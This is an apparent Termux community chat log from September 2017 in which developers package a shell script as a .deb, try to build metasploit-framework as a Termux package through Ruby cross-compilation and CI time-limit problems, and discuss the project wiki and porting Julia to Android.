2017-09-05 12:40:41	g093	wherez the index btw?

2017-09-05 12:41:05	gitter	(Auxilus) Index page??

2017-09-05 12:41:24	g093	index toc gloss...

2017-09-05 12:41:46	g093	typical textbook stuff

2017-09-05 12:42:41	gitter	(Auxilus) Well, I ain't got no textbook to read

2017-09-05 12:44:00	g093	i used too lol

2017-09-05 12:44:21	o093	heavy as bricks

2017-09-05 12:46:13	gitter	(sdrausty) @Auxilus how can I package `au` into a deb on device with Termux 💪🙂?

2017-09-05 12:46:39	gitter	(sdrausty) https://sdrausty.github.io/au

2017-09-05 12:47:06	gitter	(Auxilus) Make script out of it

2017-09-05 12:47:30	gitter	(Auxilus) Make a manifest.json

2017-09-05 12:47:58	gitter	(Auxilus) run termux-create-package manifest.json

2017-09-05 12:49:29	g093	@Auxilus index as in page 41-42 in https://github.com/Tufte-LaTeX/tufte-latex/blob/master/sample-book.pdf

2017-09-05 12:50:32	gitter	(sdrausty) @Auxilus Thanks. I will want to work on it soon. 😋

2017-09-05 12:51:40	gitter	(Auxilus) @sdrausty Its pretty easy tho

2017-09-05 12:53:06	gitter	(sdrausty) Sounds that way. I will let you know when I publish `au`as a deb.

2017-09-05 12:54:04	gitter	(Auxilus) Sure

2017-09-05 12:56:04	gitter	(sdrausty) ??? https://github.com/termux/termux-create-package/blob/master/termux-create-package

2017-09-05 12:56:09	gitter	(sdrausty) ???

2017-09-05 12:56:57	gitter	(sdrausty) What's a minimal manifest.json? Bare bone manifest.json please paste?

2017-09-05 12:58:55	gitter	(sdrausty) I've put up a couple community repos at sdrausty.github.io but I am not sure if I should publish...

2017-09-05 13:01:26	gitter	(sdrausty) Package conflicts is one reason.

2017-09-05 13:01:49	gitter	(sdrausty) Another is howto select these packages...

2017-09-05 13:01:53	gitter	(Auxilus) You dont need package conflicts option in manifest.json

2017-09-05 13:02:08	gitter	(sdrausty) ok

2017-09-05 13:02:28	gitter	(sdrausty) What's the min #lines?

2017-09-05 13:02:40	gitter	(sdrausty) For manifest.json

2017-09-05 13:02:40	gitter	(Auxilus) For manifest?

2017-09-05 13:02:49	gitter	(Auxilus) No limit i guess

2017-09-05 13:02:58	gitter	(sdrausty) Minimum

2017-09-05 13:03:04	gitter	(sdrausty) 2

2017-09-05 13:03:07	gitter	(sdrausty) 3?

2017-09-05 13:03:55	gitter	(Auxilus) There should be name version arch and files

2017-09-05 13:04:05	gitter	(Auxilus) So 5-6 line should do i guess

2017-09-05 13:04:19	gitter	(sdrausty) au installs, updates and backs up in three lines of code.

2017-09-05 13:04:41	gitter	(sdrausty) @Auxilus can u paste them here please.

2017-09-05 13:05:45	gitter	(Auxilus) First you have to setup file structure

2017-09-05 13:06:09	gitter	(Auxilus) There should be bin folder containing your script and manifest.json

2017-09-05 13:06:30	gitter	(sdrausty) https://sdrausty.github.io/au is just one file.

2017-09-05 13:07:06	gitter	(Auxilus) Yeah but these things are necessary if you wish to use it as a command

2017-09-05 13:07:09	frumpylava	@Auxilus Oh wow.  It's still going.

2017-09-05 13:07:29	gitter	(Auxilus) frumpylava : its been almost 4hrs

2017-09-05 13:07:30	gitter	(sdrausty) That should be edited by user and deposited in $PREFIX/bin

2017-09-05 13:07:48	gitter	(Auxilus) @sdrausty check https://github.com/Auxilus/Auxilus.github.io/tree/master/bash

2017-09-05 13:08:11	gitter	(sdrausty) user *user during install, i.e. dialogue.

2017-09-05 13:08:26	gitter	(sdrausty) tnx!

2017-09-05 13:09:05	gitter	(Auxilus) @sdrausty termux-create-package creates a.deb file which will install command in bin

2017-09-05 13:09:44	gitter	(Auxilus) frumpylava : any idea how much more it will take?

2017-09-05 13:09:51	gitter	(Auxilus) BTW dont close that ssh

2017-09-05 13:09:52	gitter	(sdrausty) Looks minimal to me; Thank you ☺😙🙄

2017-09-05 13:11:26	frumpylava	No idea.

2017-09-05 13:11:35	frumpylava	But the next time will be much faster

2017-09-05 13:11:49	frumpylava	Don't worry. It's running in tmux.

2017-09-05 13:13:50	gitter	(Auxilus) Im gonna be pissed off if it ends up giving errors

2017-09-05 13:16:13	gitter	(sdrausty) termux-create-package manifest.json

2017-09-05 13:16:13	gitter	(sdrausty) Building au_0.1_all.deb

2017-09-05 13:16:13	gitter	(sdrausty) ar: creating au_0.1_all.deb

2017-09-05 13:16:51	gitter	(sdrausty) $ dpkg -i au_0.1_all.deb

2017-09-05 13:16:51	gitter	(sdrausty) Selecting previously unselected package au.

2017-09-05 13:16:51	gitter	(sdrausty) (Reading database ... 93066 files and directories currently installed.)

2017-09-05 13:16:51	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59aedc029acddb2407067392]

2017-09-05 13:17:17	gitter	(sdrausty) @Auxilus Thank you;)

2017-09-05 13:17:43	gitter	(Auxilus) Use apt install ./au_0.1_all.deb

2017-09-05 13:19:55	gitter	(Auxilus) frumpylava : is this normal for build script to take this much time?

2017-09-05 13:24:40	frumpylava	@Auxilus Yes. If you have this many dependencies. I think fornwall once said a full build (all packages) takes him about 8 hours. And he has a much faster machine than me.

2017-09-05 13:27:16	o093	frumpylava: How to build on device, FAQ?

2017-09-05 13:27:42	o093	build on *build quickly and easily on

2017-09-05 13:28:33	frumpylava	o093: Well, the answer is you can't.

2017-09-05 13:28:40	gitter	(Auxilus) frumpylava : what about all the warnings?

2017-09-05 13:29:02	o093	I do not see how travis can build Termux env, can u?

2017-09-05 13:29:03	gitter	(Auxilus) I wish we could

2017-09-05 13:29:17	frumpylava	@Auxilus Compiling stuff always produces warnings.

2017-09-05 13:29:21	o093	frumpylava: not yet....

2017-09-05 13:29:25	gitter	(Auxilus) Np then..

2017-09-05 13:29:48	gitter	(Auxilus) Well dont shut down the machine :p

2017-09-05 13:30:10	o093	EMP?

2017-09-05 13:31:30	o093	https://duckduckgo.com/?q=the+machine+stops+project+gutenberg

2017-09-05 13:32:52	gitter	(Auxilus) Nooo

2017-09-05 13:33:10	gitter	(Auxilus) I see bunch of cntrl+D s

2017-09-05 13:33:48	gitter	(sdrausty) @Auxilus have you read it? It's a short mind enlightening read, ~30 min or so...

2017-09-05 13:34:12	gitter	(Auxilus) Read what?

2017-09-05 13:35:00	gitter	(Auxilus) frumpylava : i see some colored action going on ;)

2017-09-05 13:35:32	gitter	(sdrausty) "The Machine Stops" is a science fiction short story (12,300 words) by E. M. Forster. After initial publication in The Oxford and Cambridge Review (November 1909), the story was republished in Forster's The Eternal Moment and Other Stories in 1928. After being voted one of the best novellas up to 1965, it was included that same year in the populist anthology Modern Short Stories.[1] In 1973 it was also included in The Science Ficti

2017-09-05 13:36:05	gitter	(Auxilus) Ill sure read it

2017-09-05 13:36:18	gitter	(sdrausty) It's worth it.

2017-09-05 13:36:22	gitter	(Auxilus) frumpylava can you make screen bigger please?

2017-09-05 13:37:55	gitter	(Auxilus) Ty frumpylava

2017-09-05 13:44:00	o093	play-audio null

2017-09-05 13:46:15	gitter	(sdrausty) An important part of my 🐕 post was chopped: [1] In 1973 it was also included in The Science Fiction Hall of Fame, Volume Two

2017-09-05 13:47:17	o093	walk

2017-09-05 13:48:13	o093	https://duckduckgo.com/?q=walking+is+man%27s+best+medicine

2017-09-05 13:48:58	gitter	(Auxilus) frumpylava

2017-09-05 13:49:00	gitter	(Auxilus) Its done

2017-09-05 13:49:18	gitter	(Auxilus) Hey man its done

2017-09-05 13:49:47	gitter	(Auxilus) frumpylava

2017-09-05 13:50:12	frumpylava	@Auxilus Well, metasploit failed, but that was to be expected. from now on we'll only have to build metasploit.

2017-09-05 13:50:36	gitter	(Auxilus) Yes

2017-09-05 13:50:49	gitter	(Ismael-VC) Hello everyone!

2017-09-05 13:50:50	gitter	(Auxilus) What are the errors?

2017-09-05 13:51:32	gitter	(Auxilus) frumpylava : can you try out the new build.ah

2017-09-05 13:51:44	gitter	(Ismael-VC) Do any of you know if anyone has ever tried to build the julia language for termux before?

2017-09-05 13:51:47	gitter	(Auxilus) Cz i implemented it after you started the test

2017-09-05 13:51:48	gitter	(sdrausty) Are you implying that I should take Termux 💪🙂 Sweet, on a walk - in my 🐕 smartphones... o093?

2017-09-05 13:52:16	gitter	(Auxilus) @Ismael-VC hey man!

2017-09-05 13:52:34	gitter	(Ismael-VC) Hey!   :wave:

2017-09-05 13:53:01	gitter	(Auxilus) frumpylava : it shouldn't take more time at this run right?

2017-09-05 13:53:09	gitter	(Ismael-VC) I have neen succesful runn8ng julia on lonux deploy. But that requires rooting

2017-09-05 13:53:21	gitter	(Ismael-VC) *been

2017-09-05 13:53:43	gitter	(Ismael-VC) Oh sorry guys I'll be back when I am not in cellphone

2017-09-05 13:53:59	gitter	(Ismael-VC) There is no way to correct typos in the android app

2017-09-05 13:54:03	gitter	(sdrausty) We do loose users through rooting; We probably loose them through sitting and/or laying about to much, too.

2017-09-05 13:54:49	gitter	(sdrausty) http://www.npr.org/sections/health-shots/2017/09/04/547580952/get-off-the-couch-baby-boomers-or-you-may-not-be-able-to-later

2017-09-05 13:54:55	frumpylava	@Auxilus Running now

2017-09-05 13:55:03	gitter	(sdrausty) And tap listen please.

2017-09-05 13:55:05	frumpylava	It'll first build all the new dependencies.

2017-09-05 13:55:15	gitter	(Auxilus) Its just nmap

2017-09-05 13:55:43	gitter	(Auxilus) frumpylava : if you have experience with build scripts please help me get it working

2017-09-05 13:59:53	gitter	(Auxilus) Write permission error?

2017-09-05 14:00:09	gitter	(Auxilus) We missing any steps in script?

2017-09-05 14:00:39	frumpylava	@Auxilus, well you can't write to /var/lib on the build system.

2017-09-05 14:00:59	frumpylava	You need to write it to /data/data/com.termux...

2017-09-05 14:01:00	gitter	(Auxilus) Is there any work around for that?

2017-09-05 14:02:49	gitter	(Auxilus) That error is for ruby gems right?

2017-09-05 14:04:32	frumpylava	Well, patches and config parameters.

2017-09-05 14:05:02	gitter	(Auxilus) You know fix fo

2017-09-05 14:05:12	gitter	(Auxilus) Can you fix it?

2017-09-05 14:07:26	frumpylava	No, I don't know how to fix it.

2017-09-05 14:07:32	o093	oh

2017-09-05 14:07:53	gitter	(Auxilus) K

2017-09-05 14:08:02	o093	K?

2017-09-05 14:08:15	gitter	(Auxilus) Are shutting down the machine?

2017-09-05 14:09:05	o093	https://duckduckgo.com/?q=the+machine+stops+project+gutenberg EMP?

2017-09-05 14:11:06	gitter	(Auxilus) @Grimler91

2017-09-05 14:12:55	Grimler	Auxilus, there is some --install-dir option I think

2017-09-05 14:14:09	gitter	(Auxilus) For gem installation?

2017-09-05 14:14:42	gitter	(Auxilus) Yes

2017-09-05 14:14:45	gitter	(Auxilus) It has

2017-09-05 14:15:11	gitter	(Auxilus) Grimler  : Are you free now?

2017-09-05 14:16:10	Grimler	Not really, maybe in an hour or so!

2017-09-05 14:16:47	gitter	(Auxilus) Okay

2017-09-05 14:18:07	gitter	(Auxilus) frumpylava : can you try out latest commit?

2017-09-05 14:19:37	frumpylava	k

2017-09-05 14:20:03	gitter	(Auxilus) Crap!

2017-09-05 14:28:13	gitter	(Auxilus) frumpylava : try now..

2017-09-05 14:30:31	frumpylava	l

2017-09-05 14:30:32	frumpylava	k

2017-09-05 14:31:49	gitter	(Auxilus) Well atlease no ruby error this time

2017-09-05 14:33:00	gitter	(Auxilus) Try now..

2017-09-05 14:36:25	gitter	(Auxilus) frumpylava

2017-09-05 14:37:50	frumpylava	k

2017-09-05 14:38:28	gitter	(Auxilus) M done!

2017-09-05 14:38:40	gitter	(Auxilus) @Grimler91 help me man...

2017-09-05 14:39:59	timwr	Auxilus: try this: https://github.com/termux/termux-packages/pull/1358/files#diff-5c712d5ae08a8a183576161f28b88acdR23

2017-09-05 14:51:26	Grimler	Auxilus: I'll have look

2017-09-05 14:52:05	gitter	(Auxilus) Ive just pushed new commit..

2017-09-05 14:52:11	gitter	(Auxilus) frumpylava : try now..

2017-09-05 14:52:23	gitter	(Auxilus) No wait

2017-09-05 14:52:38	gitter	(Auxilus) frumpylava : tey

2017-09-05 14:54:47	gitter	(Auxilus) Grimler : it took more than 4 hrs to build all dependencies

2017-09-05 15:02:26	gitter	(Auxilus) frumpylava : try now

2017-09-05 15:03:56	gitter	(Auxilus) @Grimler91 found any fix?

2017-09-05 15:05:48	Grimler	I have to understand what you're actually doing in the script first, stay tuned

2017-09-05 15:07:10	gitter	(Auxilus) Im gonna stay up as long as it takes..

2017-09-05 15:22:21	Grimler	I removed all the termux_pkg_depends, we can re-add them as we see that they are actually needed. This speeds up (travis) build a lot, I suggest you do the same

2017-09-05 15:23:17	gitter	(Auxilus) Okay  , you made commit?

2017-09-05 15:24:12	gitter	(Auxilus) So we gonna add dependencies one by one? Or one for which travis gives error?

2017-09-05 15:25:11	gitter	(Auxilus) Grimler, i dont see any commit..

2017-09-05 15:26:39	Grimler	Have a look here: https://github.com/Grimler91/termux-packages/tree/metasploit

2017-09-05 15:26:44	Grimler	work in progress

2017-09-05 15:26:56	Grimler	yes, one for each travis error

2017-09-05 15:28:10	gitter	(Auxilus) You got whole thing done..

2017-09-05 15:28:10	gitter	(Auxilus) Is it working?

2017-09-05 15:28:26	gitter	(Auxilus) I see patches and all that stuff there..

2017-09-05 15:28:27	Grimler	No, I've basically just made the script prettier so far

2017-09-05 15:28:42	Grimler	the patches are the same ones that you curled before

2017-09-05 15:28:54	gitter	(Auxilus) K

2017-09-05 15:29:16	gitter	(Auxilus) Ill commit in pr and remove dependencies

2017-09-05 15:30:42	gitter	(Auxilus) Done..

2017-09-05 15:31:11	gitter	(Auxilus) How to I stop travis test for old commits?

2017-09-05 15:33:37	Grimler	Not sure if you can

2017-09-05 15:34:11	gitter	(Auxilus) Okay

2017-09-05 15:36:41	timwr	Auxilus: I updated my pr, hope it helps

2017-09-05 15:38:59	gitter	(Auxilus) Nice timwr!

2017-09-05 15:39:15	gitter	(Auxilus) May be we should have only one pr instead of two

2017-09-05 15:41:57	timwr	I'm going to bed, feel free to copy and paste anything

2017-09-05 15:42:32	gitter	(Auxilus) Ty

2017-09-05 15:42:39	g093	tnx

2017-09-05 15:44:10	gitter	(Auxilus) Grimler

2017-09-05 15:44:17	gitter	(Auxilus) Travis is done

2017-09-05 15:44:22	gitter	(Auxilus) I added sha256

2017-09-05 15:46:38	gitter	(Auxilus) mv: cannot stat '4.16.2': No such file or directory

2017-09-05 15:46:38	gitter	(Auxilus) Error building metasploit-framework

2017-09-05 15:47:01	Grimler	Nice. Yeah, that's because it's a work in progress

2017-09-05 15:47:52	gitter	(Auxilus) What about move error?

2017-09-05 15:48:06	gitter	(Auxilus) Tho tarball has name 4.14

2017-09-05 15:48:29	gitter	(Auxilus) It extracts as metasploit-framework-4.14.2

2017-09-05 15:48:50	gitter	(Auxilus) So do we have to specify that in script?

2017-09-05 15:49:40	timwr	TERMUX_PKG_FOLDERNAME should fix that

2017-09-05 15:50:57	gitter	(Auxilus) So `TERMUX_PKG_FOLDERNAME=metasploit-framework-$TERMUX_PKG_VERSION `?

2017-09-05 15:52:26	timwr	yup

2017-09-05 15:55:22	Grimler	the move error was due to the build.sh script being a mix of the old and the new one

2017-09-05 15:56:03	Grimler	I updated it now. We need to setup a cross compiling environment for ruby/gem to make this work

2017-09-05 15:57:00	gitter	(Auxilus) When you say updated you mean on pr or on your fork?

2017-09-05 15:57:01	Grimler	It won't happen tonight, I started playing around with platform flags and stuff but I know to little about ruby/gem to do any real progress

2017-09-05 15:57:09	Grimler	my fork

2017-09-05 15:58:06	gitter	(Auxilus) Ill just copy paste your build.sh and see how it goes

2017-09-05 15:58:09	gitter	(Auxilus) K?

2017-09-05 15:58:18	Grimler	yeah go ahead.

2017-09-05 15:58:57	Grimler	I can for some reason not open a pull request to your repo, maybe because the branches has diverged to much

2017-09-05 15:59:40	gitter	(Auxilus) Yeah

2017-09-05 15:59:51	gitter	(Auxilus) Ill just copy your stuff in my pr

2017-09-05 16:00:37	gitter	(Auxilus) Crap

2017-09-05 16:00:50	gitter	(Auxilus) How do I apply patches??

2017-09-05 16:01:18	gitter	(Auxilus) Im gonna close this pr and create new one

2017-09-05 16:01:31	gitter	(Auxilus) It already has 18 commits

2017-09-05 16:01:37	timwr	nice one Grimler, just saw your commit

2017-09-05 16:01:43	timwr	let's pr it set off a build?

2017-09-05 16:02:03	timwr	TERMUX_PKG_BUILD_IN_SRC seems the way to go

2017-09-05 16:04:33	gitter	(Auxilus) Timwr: you added Grimler's form to be merged?

2017-09-05 16:05:09	gitter	(Auxilus) That has over 25 commits

2017-09-05 16:05:20	timwr	I'll close it, just wanted to trigger the build

2017-09-05 16:05:27	timwr	sorry for the spam!

2017-09-05 16:05:29	timwr	good night

2017-09-05 16:05:57	gitter	(Auxilus) Gn

2017-09-05 16:07:57	Grimler	I should go to bed as well. We need to figure out the correct gem arguments to make it cross compile for our desired platform. Right now the build script throws an error because it uses system's gcc with termux CFLAGS

2017-09-05 16:08:43	gitter	(Auxilus) Okay

2017-09-05 16:09:07	gitter	(Auxilus) We will figure that out tomorrow

2017-09-05 16:09:09	gitter	(Auxilus) Imma just create new pr

2017-09-05 16:09:15	Grimler	yeah!

2017-09-05 16:09:40	Grimler	shouldn't be necessary to open new pr

2017-09-05 16:09:44	Grimler	you can remake the history of the current one

2017-09-05 16:09:50	Grimler	with git rebase and others

2017-09-05 16:09:50	gitter	(Auxilus) I closed

2017-09-05 16:09:54	Grimler	alright

2017-09-05 16:10:04	Grimler	good night anyways!

2017-09-05 16:10:11	gitter	(Auxilus) Gn

2017-09-05 16:37:52	rkeene	What are you trying to compile ?  (I run a Linux distribution that's 100% cross-compiled)

2017-09-05 16:37:55	gitter	(Ismael-VC) Guys should I go qith the termux/package-builder docker image or with run-docker.sh?

2017-09-05 16:38:15	gitter	(Ismael-VC) rkeene awesome!

2017-09-05 16:38:50	gitter	(Auxilus) rkeene : metasploit-framework

2017-09-05 16:39:45	gitter	(Auxilus) We have manual installation but we are trying to get it by `apt install metasploit-framework `

2017-09-05 16:40:27	rkeene	Ah, it's not a package I use so no particular experience with it.  One thing I do is have a cross-compile toolchain built with sysroot and have a second apparent toolchain which is a wrapper around the first that ensures that sysroot is respected by various tools

2017-09-05 16:41:46	rkeene	(My distribution focuses on Linux, Ceph, QEMU, and OpenNebula running statelessly on bare-metal)

2017-09-05 16:46:36	gitter	(sdrausty) @Auxilus `au` is now published as a deb download; ThAnk you.

2017-09-05 16:46:50	gitter	(sdrausty) https://github.com/sdrausty/dists/blob/master/termux/extras/binary-aarch64/au_0.1_all.deb

2017-09-05 16:46:56	gitter	(sdrausty) Does it work?

2017-09-05 16:47:08	gitter	(Auxilus) Lemme chk..

2017-09-05 16:48:46	gitter	(Auxilus) @sdrausty yeah, it works!

2017-09-05 16:49:16	gitter	(Auxilus) @vishalbiswas what do we need to build nokogiri with native extensions?

2017-09-05 16:55:28	gitter	(sdrausty) @Auxilus Thank you. Now how to integrate questions at setup, i.e. 1 default, 2 you may want to custom option this PATH, 3 FIND IT, ETC.

2017-09-05 16:56:11	gitter	(sdrausty) @Auxilus nokogiri builds on device.

2017-09-05 16:56:19	gitter	(Auxilus) You mean you want `au -h `?

2017-09-05 16:57:03	gitter	(Auxilus) I git it...

2017-09-05 16:57:25	gitter	(Auxilus) You can implement that in your bash scrilt

2017-09-05 16:57:46	gitter	(Auxilus) Just if else statements would do

2017-09-05 16:59:04	gitter	(sdrausty) tnx

2017-09-05 16:59:40	gitter	(Auxilus) Welcome

2017-09-05 17:00:01	gitter	(sdrausty) $ nokogiri -h

2017-09-05 17:00:01	gitter	(sdrausty) Nokogiri: an HTML, XML, SAX, and Reader parser

2017-09-05 17:00:01	gitter	(sdrausty) Usage: nokogiri <uri|path> [options]

2017-09-05 17:00:01	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59af1050bac826f05483809f]

2017-09-05 17:00:53	gitter	(sdrausty) $ nokogiri -v

2017-09-05 17:00:54	gitter	(sdrausty) # Nokogiri (1.8.0)

2017-09-05 17:00:54	gitter	(sdrausty)     ---

2017-09-05 17:00:54	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59af108566c1c7c4771b779a]

2017-09-05 17:01:02	gitter	(Auxilus) Ik how to install nokogiri, i just want to know what packages it depends on..

2017-09-05 17:02:28	gitter	(sdrausty) @Auxilus `gem install nokogiri -- --use-system-libraries`

2017-09-05 17:03:46	gitter	(sdrausty) ruby

2017-09-05 17:06:14	gitter	(Auxilus) ruby-dev, libxml2-dev, libxslt-dev, pkg-config, make, clang

2017-09-05 17:06:53	gitter	(sdrausty) apt install *

2017-09-05 17:10:28	gitter	(Auxilus) frumpylava u there?

2017-09-05 17:12:10	rkeene	Ruby sucks at cross-compiling (so does Python, Perl, etc -- only Tcl gets it right)

2017-09-05 17:12:55	gitter	(Auxilus) Ruby reeeealy sucks

2017-09-05 17:15:47	gitter	(sdrausty) $ tclsh

2017-09-05 17:15:47	gitter	(sdrausty) %

2017-09-05 17:22:31	rkeene	Tcl is nice :-)

2017-09-05 17:29:23	fornwall	frumpylava: I think replacing https://termux.com/help.html with wiki.termux.com is a good idea

2017-09-05 17:33:06	fornwall	as well as replacing the "Read the help section online" link that's hidden at the bottom of the termux.com page with something that's more visible

2017-09-05 17:34:19	fornwall	something like 'Learn more at the wiki' link just below the links to the play store and f-droid

2017-09-05 17:38:49	rods-tab3	no, the help.html is good

2017-09-05 17:39:42	rods-tab3	well organized,  sucent

2017-09-05 17:39:42	frumpylava	fornwall: That's a good idea. I've been shaping the wiki to be structured more like the help pages anyway. I think all all the information in the help pages is now in the wiki as well and easily accessible in the wiki.

2017-09-05 17:40:29	frumpylava	I'm actively trying to prevent the wiki to become all about metasploit, confining it to it's own section, where it belongs.

2017-09-05 17:43:13	fornwall	frumpylava: right, I really like the recent restructuring!

2017-09-05 17:50:29	rods-tab3	tthe wiki is a miss-mash ; 90% irrelevent to the average user; keep the help please

2017-09-05 17:56:06	frumpylava	fornwall: Thanks. Hopefully I'll be keeping a closer look on the wiki, so that it doesn't grow into a huge mess again.

2017-09-05 17:58:09	frumpylava	rods-tab3: Have you looked at the wiki since yesterday? I did a huge restructuring. It now closely resembles the old help pages. The Main page is made explicitly with new users in mind. Keeping the mostly irrelevant and advanced stuff on seperate pages but where it still can easily be found by advanced users.

2017-09-05 17:59:53	frumpylava	rods-tab3: But if you have an idea what still is missing or what doesn't belong on the main page I'd be interessted to hear it.

2017-09-05 18:02:04	rods-tab3	thnx; will look later - off to store

2017-09-05 18:08:06	fornwall	frumpylava: I've updated the termux.com page to link to the wiki at the top now

2017-09-05 18:09:14	fornwall	the termux.com page is using github pages and is available at https://github.com/termux/termux.github.io, if anyone wants to give it some love or tweak it

2017-09-05 18:12:46	gitter	(sdrausty) fornwall: nice

2017-09-05 18:25:49	frumpylava	fornwall: nice, thanks

2017-09-05 18:43:00	gitter	(sdrausty) fornwall : please do not delete

2017-09-05 18:43:15	gitter	(sdrausty) https://termux.com/help

2017-09-05 18:44:00	rod-yolo	ditto

2017-09-05 18:45:29	rod-yolo	where is the wiki ? (on phone)

2017-09-05 18:46:01	gitter	(sdrausty) https://wiki.termux.com

2017-09-05 20:48:06	gitter	(Ismael-VC) Hello again everyone!

2017-09-05 20:48:22	gitter	(Ismael-VC) I'm still downloading the docker image :( my internet connection sucks...

2017-09-05 20:49:17	gitter	(Ismael-VC) I have been reading the wiki in the mean while, as well as some issues related with Julia.

2017-09-05 20:54:23	gitter	(Ismael-VC) I understand that I can add repos and packages from unofficial sources in the termux app, for example to install its-pointless gfortran which could solve https://github.com/termux/termux-packages/issues/702 or already solves it?

2017-09-05 20:54:30	live_the_dream	yeah about julia i dont think you can cross compile that

2017-09-05 20:54:49	live_the_dream	im its-pointless

2017-09-05 20:55:41	gitter	(Ismael-VC) Hi! so it is pointless after all

2017-09-05 20:55:42	gitter	(Ismael-VC) :P

2017-09-05 20:56:08	gitter	(Ismael-VC) Nice nickname by the way

2017-09-05 20:56:46	gitter	(Ismael-VC) I was also checking out https://github.com/cydhaselton/libunwind-android.git as it would be needed to according to https://github.com/termux/termux-packages/issues/639

2017-09-05 20:57:23	gitter	(Ismael-VC) live_the_dream: could you point me to  the biggest show stopper?

2017-09-05 20:59:07	gitter	(Ismael-VC) So packages must be cross compiled in order to work? Native comilation doesn't work? I have compiled Julia in ARMs before, but I admit I'm just someone who would love to have Julia on android. I'm not really well versed in Android programming though.

2017-09-05 20:59:23	live_the_dream	julia still only builds on arm_hf  i686 and x86_64 linux right? been a while since i looked?

2017-09-05 20:59:27	live_the_dream	you have to build on device

2017-09-05 20:59:31	live_the_dream	for julia

2017-09-05 20:59:50	gitter	(Ismael-VC) I have done that with Linux Deploy and Arch linux

2017-09-05 21:00:09	gitter	(Ismael-VC) Another person has done that with GNUroot

2017-09-05 21:00:24	gitter	(Ismael-VC) I have compiled in RPi3 too

2017-09-05 21:00:31	live_the_dream	termux and android in general no longer supports hard float

2017-09-05 21:01:24	live_the_dream	like you can still build on it ... but termux doesn't

2017-09-05 21:02:28	live_the_dream	to bet it to work requires a bit more effort. i think i686 and x86_64 might be able to work

2017-09-05 21:03:29	live_the_dream	flisp has issues compiljng with termux clang

2017-09-05 21:03:46	live_the_dream	but goes a bit further with gcc...

2017-09-05 21:07:53	live_the_dream	also libuv that julia uses is different to normal so that needs to be patched

2017-09-05 21:10:22	live_the_dream	their version uses pthread_cancel which android doesn;t have?

2017-09-05 21:10:41	live_the_dream	so basically its a clusterfuck

2017-09-05 21:12:04	gitter	(Ismael-VC) Sorry I lost connection :/

2017-09-05 21:12:35	gitter	(Ismael-VC) I was going to pint out that the devel branch has ongoing support for armv8-a

2017-09-05 21:12:46	gitter	(Ismael-VC) [](https://files.gitter.im/termux/termux/76P2/image.png)

2017-09-05 21:14:39	gitter	(Ismael-VC) sad to hear that.

2017-09-05 21:14:45	gitter	(Ismael-VC) Damn :(

2017-09-05 21:14:47	gitter	(Ismael-VC) I saw rust is available in your repo I think and thought it could be possible.

2017-09-05 21:22:24	live_the_dream	its possible if say a juklia dev was doing it...

2017-09-05 22:19:37	rkeene	I think the execve() wrapper would fit in great in libandroid-support

2017-09-05 22:45:36	live_the_dream	iv already built it

2017-09-05 22:46:04	live_the_dream	fun not having to worey bout shebangs

2017-09-06 00:04:28	rkeene	live_the_dream, Did you merge it ?  I didn't actually look at anything

2017-09-06 00:04:38	live_the_dream	no

2017-09-06 00:04:44	live_the_dream	i don't have access to do that

2017-09-06 00:05:21	live_the_dream	but i guess i could do a pull request to github.com/termux/libandroid-support

2017-09-06 00:06:29	rkeene	Doooooo it

2017-09-06 00:06:46	rkeene	Then I don't have to ;-)

2017-09-06 00:47:15	rkeene	Aww yisss

2017-09-06 00:48:04	rkeene	Oh, I see you added "/bin/sh" there too -- I was confused as the change in formatting before I noticed that :-D

2017-09-06 00:48:48	live_the_dream	yeah

2017-09-06 00:53:26	rkeene	Oh, I guess I never pushed my new changes

2017-09-06 00:55:07	rkeene	buffer_e may be NULL, in which case it should be ignored... I don't have my chromebook with me but I have a newer version that fixes that small bug and some other stuff

2017-09-06 00:56:52	live_the_dream	k

2017-09-06 00:58:07	live_the_dream	this kind of removes the most annoying bit of termux

2017-09-06 00:58:14	live_the_dream	so i have to say this

2017-09-06 00:58:24	live_the_dream	you're awesome

2017-09-06 00:58:48	rkeene	I know, right ?

2017-09-06 01:02:00	live_the_dream	only issue with putting it libandroid-support is some things don't link to it

2017-09-06 01:02:13	live_the_dream	coreutils ...

2017-09-06 01:03:17	rkeene	Time for a nap

2017-09-06 01:22:55	gitter	(Auxilus) frumpylava :  nice work with the wiki!

2017-09-06 01:25:03	gitter	(Auxilus) frumpylava : you may wanna protect pages now cz as the link to wiki is on main site, more people would come..

2017-09-06 01:29:38	gitter	(Auxilus) frumpylava : I'd really appreciate if you could try out the latest build script

2017-09-06 01:35:00	gitter	(Auxilus) Can anyone here please try out the script? It gives time limit error to travis-ci due to its dependencies

2017-09-06 02:41:02	gitter	(Auxilus) @Grimler91 nokogiri itself needs `ruby-dev, libxml2-dev, libxslt-dev, pkg-config, make, clang"`

2017-09-06 02:43:53	timwr	Auxilus, the -dev packages might not be needed as dependencies if we do the bundle in build.sh

2017-09-06 02:44:14	timwr	as in they are build dependencies, but not runtime dependencies

2017-09-06 02:44:47	gitter	(Auxilus) Ill remove them and see if it works

2017-09-06 02:44:59	gitter	(Auxilus) Btw i need someone to test in in docker..

2017-09-06 02:46:05	gitter	(Auxilus) But i think ruby-dev is needed?

2017-09-06 02:46:16	gitter	(Auxilus) Or remove that too?

2017-09-06 02:47:06	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1361/commits/977e1f2840215005b59a61c95a67c2541a3e8c3e

2017-09-06 04:36:38	gitter	(Auxilus) @sdrausty

2017-09-06 04:42:14	gitter	(Auxilus) Ive changed format a bit

2017-09-06 04:42:15	gitter	(Auxilus) https://wiki.termux.com/wiki/Package_Management#sdrausty.27s_repositories

2017-09-06 04:42:32	gitter	(Auxilus) Feel free to to change it back if you dont like it

2017-09-06 05:01:40	g093	its ok tnx

2017-09-06 06:33:00	gitter	(Auxilus) @fornwall I pushed commits for updates of "vim, vim-python, zsh, nodejs, nginx"

2017-09-06 06:36:25	gitter	(Auxilus) @fornwall I pushed PRs of updates for "vim, vim-python, zsh, nodejs, nginx"

2017-09-06 09:02:01	gitter	(Auxilus) How this commit ain't got no time time limit (its over 3 hrs now)

2017-09-06 09:02:02	gitter	(Auxilus) https://travis-ci.org/termux/termux-packages/builds/272400880?utm_source=github_status&utm_medium=notification

2017-09-06 10:11:39	gitter	(stephengroat) @Auxilus look like you hit a bug in the ui, the raw log output shows that the build was terminated

2017-09-06 10:12:39	gitter	(Auxilus) Just got terminated

2017-09-06 10:13:06	gitter	(Auxilus) Problem is with job limit

2017-09-06 10:14:28	gitter	(Auxilus) I need someone to try out the script on their machine

